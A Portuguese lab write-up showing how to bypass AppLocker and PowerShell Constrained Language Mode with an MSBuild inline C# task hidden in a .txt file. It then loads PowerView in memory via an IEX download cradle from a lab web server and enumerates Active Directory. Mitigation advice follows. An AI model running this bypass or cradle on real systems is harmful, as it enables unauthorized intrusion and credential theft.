








Bypass de AppLocker e Constrained Language Mode
Uma estação do domínio ecorp com AppLocker e Constrained Language Mode ativos.
O plano: recuperar um PowerShell em Full Language e rodar o PowerView em
memória para enumerar o Active Directory, sem tocar o disco onde o antivírus e o AppLocker
estão de guarda.
Laboratório próprio e isolado, reproduzindo o cenário do livro How to Hack Like a Legend: Breaking Windows (Sparc Flow). Domínio e dados são fictícios. Fins estritamente educacionais; aplicar estas técnicas sem autorização é ilegal.
Objetivo
O alvo tem duas camadas de contenção: o AppLocker, que restringe de onde
binários e scripts podem ser executados, e o Constrained Language Mode (CLM)
do PowerShell, que limita drasticamente o que a linguagem consegue fazer. Quero carregar o
PowerView para enumerar o AD, mas ele precisa rodar em memória. Em disco, tanto o
Windows Defender quanto o AppLocker o bloqueariam.
1. O obstáculo: Constrained Language Mode
A primeira tentativa é o padrão clássico de download cradle: instanciar um cliente HTTP para baixar e executar o script direto na memória. Ela falha de imediato, porque o PowerShell recusa criar o objeto e o modo de linguagem só aceita os tipos básicos:
$browser = New-Object System.Net.WebClient
Confirmando o motivo, o modo de linguagem da sessão é ConstrainedLanguage:
$ExecutionContext.SessionState.LanguageMode
# ConstrainedLanguage
Em CLM, o PowerShell bloqueia
New-Objectpara tipos arbitrários do .NET, chamadas diretas a métodos,Add-Type, COM e mais. É a contenção que a Microsoft acopla ao AppLocker/WDAC: mesmo com a shell aberta, o atacante fica sem as primitivas que a maioria das ferramentas ofensivas assume.
2. As regras do AppLocker
Antes do bypass, é preciso saber de onde a política permite execução. As regras efetivas se leem direto pelo módulo:
Import-Module AppLocker
$a = Get-AppLockerPolicy -Effective
$a.RuleCollections
O host roda as regras padrão: o grupo Everyone pode executar o que
estiver em %PROGRAMFILES% e em %WINDIR%. Parece seguro, já que um
usuário comum não escreve nesses diretórios. O detalhe é que %WINDIR% guarda
binários assinados pela Microsoft que executam código por nós (os LOLBINs). Um
deles vai ser a porta de entrada.
3. A ideia: um wrapper próprio de PowerShell
O ponto-chave: o Constrained Language Mode é uma propriedade do host de PowerShell, não
do motor. Boa parte das funcionalidades vem da biblioteca
System.Management.Automation.dll, e essa DLL continua operando em
Full Language mesmo com a sessão interativa em CLM.
A consequência é direta: se construirmos nosso próprio host, um wrapper que
carrega System.Management.Automation.dll e cria um runspace novo, esse
runspace nasce em Full Language e devolve o PowerShell completo. E se ele for disparado por um
binário que o AppLocker já confia, as duas barreiras caem juntas.
4. Montando o wrapper com MSBuild
O veículo é o MSBuild.exe: assinado pela Microsoft, mora sob %WINDIR%
(portanto permitido pelo AppLocker) e sabe compilar e executar inline tasks em C#. O
wrapper vive num arquivo de aparência inofensiva (aqui, um .txt). A workstation usa
o MSBuild 4.0, então começamos fixando essa versão:
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
</Project>Definimos uma custom task e a adicionamos ao target do projeto:
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="PSBYPASS">
<PsCommand/>
</Target>
</Project>
A task recebe o nome PsCommand, e o MSBuild vai compilá-la e executá-la. Para
compilar C# inline, carregamos a CodeTaskFactory de
Microsoft.Build.Tasks.v4.0.dll e referenciamos
System.Management.Automation:
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="PSBYPASS">
<PsCommand/>
</Target>
<UsingTask
TaskName="PsCommand"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
<Task>
<Reference Include="System.Management.Automation"/>
<Code Type="Class" Language="cs">
<![CDATA[
// código C# aqui
]]>
</Code>
</Task>
</UsingTask>
</Project>O código C#
Dentro do CDATA vai a task. Ela cria um objeto PowerShell a partir de
System.Management.Automation e, como prova de conceito, pergunta o modo de
linguagem do runspace recém-criado:
using System;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
using System.Management.Automation;
using System.Management.Automation.Host;
using System.Management.Automation.Runspaces;
using PowerShell = System.Management.Automation.PowerShell;
public class PsCommand : Task, ITask
{
public override bool Execute()
{
Console.WriteLine("Executing PS commands");
PowerShell Ps_instance = PowerShell.Create();
Ps_instance.AddScript("$ExecutionContext.SessionState.LanguageMode");
foreach (string str in Ps_instance.Invoke<string>())
Console.WriteLine(str);
Console.WriteLine("Press any key to exit...");
Console.ReadKey();
return true;
}
}5. Executando: Full Language de volta
Rodando o wrapper com o MSBuild permitido pelo AppLocker. O arquivo é um .txt
qualquer, porque o AppLocker avalia o binário que dispara, não o conteúdo do texto:
.\MSBuild.exe C:\Users\...\Downloads\dunga.txt
O runspace criado pela DLL nasceu em Full Language. As duas barreiras caíram no
mesmo movimento: o AppLocker aprovou o MSBuild.exe e o CLM não alcança o novo host.
6. Console interativo
Uma PoC que só imprime o modo de linguagem é pouco. Aproveitando o excelente trabalho do Sparc
Flow em How to Hack Like a Legend, o mesmo princípio vira um console
interativo completo. A lógica é idêntica: XML disfarçado de .txt,
compilado pelo MSBuild.exe (aceito pelo AppLocker), entregando um PowerShell em Full
Language.
.\MSBuild.exe C:\Users\...\Downloads\console.txt
LanguageMode = FullLanguageFonte do console interativo: sparcflow/HackLikeALegend, msbuild/console.xml.
7. Carregando o PowerView em memória
Com Full Language de volta, o New-Object funciona. O Windows Defender segue ativo,
então o PowerView é carregado direto na memória, evitando a detecção baseada em
arquivo:

New-Object System.Net.WebClient executa sem erro$browser = New-Object System.Net.WebClient
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX($browser.DownloadString('http://192.168.0.16:8000/miniview.ps1'))
IEX8. Enumerando o Active Directory
Com o PowerView carregado, uma enumeração simples de usuários do domínio:
Get-NetUser | Select name, description
Além dos usuários, o campo description entregou um brinde clássico de AD real: uma
senha guardada em texto claro na descrição do objeto, o tipo de
low-hanging fruit que enumeração de LDAP costuma revelar.
Conclusão
Duas defesas sérias, AppLocker e Constrained Language Mode, foram contornadas não por uma falha
de software, mas pela combinação de dois fatos de design: o CLM vive no host, e um
LOLBIN confiável (MSBuild.exe) hospeda um runspace novo em Full Language. Fica a
lição: defesa em profundidade cai quando uma das camadas confia em uma árvore inteira de
binários. A partir daí, o caminho até enumerar o AD e achar credenciais é curto.
Detecção e mitigação
- WDAC no lugar (ou além) do AppLocker: política baseada em código com regras de DLL fecha boa parte dos LOLBINs que o AppLocker sozinho ignora.
- Bloquear ou auditar MSBuild.exe e afins (
InstallUtil,csc) em estações que não compilam código. - Script Block Logging (evento 4104) e AMSI: a criação do runspace e o carregamento do PowerView ficam registrados mesmo em memória.
- Revisar as default rules do AppLocker: trocar confiança em árvore inteira por regras de publisher/hash e remover subpastas graváveis por usuário.
- Higiene de AD: nunca guardar senha em campo
description; auditar o atributo periodicamente.
Referências e créditos
Todo o cenário é um laboratório do livro How to Hack Like a Legend: Breaking Windows, do Sparc Flow, a quem vão os créditos da técnica e do console interativo.
- sparcflow/HackLikeALegend, msbuild/psh.xml
- sparcflow/HackLikeALegend, msbuild/console.xml
- api0cradle/UltimateAppLockerByPassList
- Bypassing WDAC and AppLocker using Ligolo, Hacking Articles
- Windows AppLocker Policy: A Beginner's Guide, Hacking Articles
- Sliver C2, Stagers
PS: o arquivo do wrapper virou dunga.txt, homenagem ao cachorro da minha tia,
que fazia companhia na hora de escrever a PoC. 🐶